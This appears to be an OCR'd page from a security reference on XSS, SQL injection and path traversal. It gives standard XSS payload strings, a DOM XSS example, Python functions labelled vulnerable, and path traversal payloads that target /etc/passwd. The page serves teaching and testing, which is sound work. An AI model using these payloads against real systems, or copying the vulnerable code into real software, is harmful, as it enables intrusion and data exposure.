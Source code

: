 #### **Exploitation Techniques:**
```javascript
// XSS payloads
const xss_payloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "<svg onload=alert('XSS')>",
    "javascript:alert('XSS')",
    "<iframe src=javascript:alert('XSS')>"
];

// DOM-based XSS
function test_dom_xss() {
    const url = new URL(window.location);
    const param = url.searchParams.get('q');
    document.getElementById('output').innerHTML = param;  // Vulnerable
}
```

### **CWE-89: SQL Injection**

#### **Vulnerability Patterns:**
```python
# VULNERABLE: String concatenation
def get_user_by_id(user_id):
    query = "SELECT * FROM users WHERE id = " + str(user_id)
    return database.execute(query)

# VULNERABLE: Format string
def search_users(search_term):
    query = "SELECT * FROM users WHERE name LIKE '%{}%'".format(search_term)
    return database.execute(query)
```

### **CWE-22: Path Traversal**

#### **Vulnerability Patterns:**
```python
# VULNERABLE: Path traversal
def read_file(filename):
    with open(f"/uploads/{filename}", 'r') as f:  # No validation
        return f.read()

# VULNERABLE: Directory traversal
def serve_file(path):
    return send_file(f"static/{path}")  # No path validation
```

#### **Exploitation Techniques:**
```python
# Path traversal payloads
path_traversal_payloads = [
    "../../../etc/passwd",
    "..\\..\\..\\windows\\system32\\drivers\\etc\\hosts",
    "....//....//....//etc/passwd",
    "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
];
```
